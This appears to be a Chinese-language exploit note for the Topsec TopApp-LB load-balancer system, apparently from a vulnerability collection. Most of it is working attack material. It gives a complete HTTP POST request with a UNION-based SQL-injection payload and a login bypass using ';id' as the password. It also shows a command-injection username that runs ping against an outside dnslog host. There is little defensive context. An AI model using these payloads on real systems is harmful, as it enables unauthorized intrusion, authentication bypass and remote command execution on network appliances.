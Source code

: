 # 天融信TopApp-LB 负载均衡系统Sql注入漏洞



1.利用POC:

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- +&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```

![image-20201020115040428](.resource/%E5%A4%A9%E8%9E%8D%E4%BF%A1TopApp-LB%20%E8%B4%9F%E8%BD%BD%E5%9D%87%E8%A1%A1%E7%B3%BB%E7%BB%9FSql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/image-20201020115040428.png)



2.2个历史漏洞仍然可以复现。

https://www.uedbox.com/post/21626/

用户名随意 密码:;id(天融信负载均衡TopApp-LB系统无需密码直接登陆)

https://www.uedbox.com/post/22193/

用户名: ; ping 9928e5.dnslog.info; echo 密码:任意

![image-20201020120245870](.resource/%E5%A4%A9%E8%9E%8D%E4%BF%A1TopApp-LB%20%E8%B4%9F%E8%BD%BD%E5%9D%87%E8%A1%A1%E7%B3%BB%E7%BB%9FSql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/image-20201020120245870.png)
